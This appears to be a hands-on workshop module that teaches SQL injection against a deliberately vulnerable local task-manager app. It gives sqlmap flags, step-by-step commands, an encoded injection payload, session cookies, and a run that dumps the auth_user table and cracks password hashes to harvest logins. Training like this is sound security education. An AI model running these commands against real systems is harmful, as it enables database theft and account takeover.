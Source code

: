 # SQL Injection (15 Minutes)
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
#### sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check
- `-r REQUESTFILE` Load HTTP request from the following file

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.

![vtm login](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-login.png)

Access the Forgot Password Page

![vtm forgot password](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-forgot-password.png)

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-email-sql-error.png)


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection

#### Step 1 - Validate SQL Injection Vulnerability
Navigate back to the login page of vtm and login as `chris` with password `test123`

![vtm dashboard](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-chris-dashboard.png)

Browse to the *Marketing Campaign* project from the dashboard

![vtm project detail](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-details.png)

Check whether the URL project id, embedded between *taskManager* and *project_details* is vulnerable to sql injection by adding ` OR` (that's *space*OR) after the number 7.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-sql-error.png)

#### Step 2 - Setup sqlmap to exploit the project details SQL Injection vulnerability

Since this page is only accessible to authenticated users, we will need to pull the cookie value associated with `chris` and add it to the sqlmap request.

Get all of the cookie headers using the browser's developer tools or viewing the request in Burp Suite. The request for the project details page will look similar to the following:

```
GET /taskManager/7/project_details/ HTTP/1.1
Host: 127.0.0.1:8000
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc
```

Since we currently don't know which of these values are required for user authorization, copy the entire string for use with sqlmap.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7/project_details/" --cookie="csrftoken=CMk8epAzX7UDyXl2R0zBa2yfmZ8muICjJ7L2ZmUpKV962mlRNSthtANTaVkYubI0; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0olo:wR61ZH3DwyceV4rXFs5WCkw-lXQ" --current-db
```

Running this command with the proper cookie value does not result in a successful sqlmap session, but will output something similar to the following:

```
[14:16:00] [WARNING] URI parameter '#1*' does not seem to be injectable
[14:16:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
[14:16:00] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 127 times
```

Since sqlmap does not recognize the project id parameter embedded in the URL, use the `*` character to denote where the injection should take place

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --current-db
```

#### Step 3 - Exploit the project detail SQLi to harvest user credentials

Not that we know this injection point is valid, let's attempt to enumerate the *auth_user* table within the *vtmdb* database by appending `--dump -D vtmdb -T auth_user` to the sqlmap command.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --dump -D vtmdb -T auth_users
```

Allow sqlmap to run a brute-force attack against the identified md5 hashes and you should get information about most of the vtm accounts.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-sqlmap-auth-user.png)

Congratulations! Test out `dade`'s password to verify that the credentials are active.

## Challenges


| Challenge | Difficulty |
| ---- | ---- |
| Altoro Mutual | http://demo.testfire.net |
| Bypass Login | :star: |
| All your transaction belong to us and so do your DBs,tables,columns,usernames,and passwords | :star::star::star: |
| Bacon Graphql | http://localhost:8085/graphql |
| Show all the bacons | :star::star::star: | 
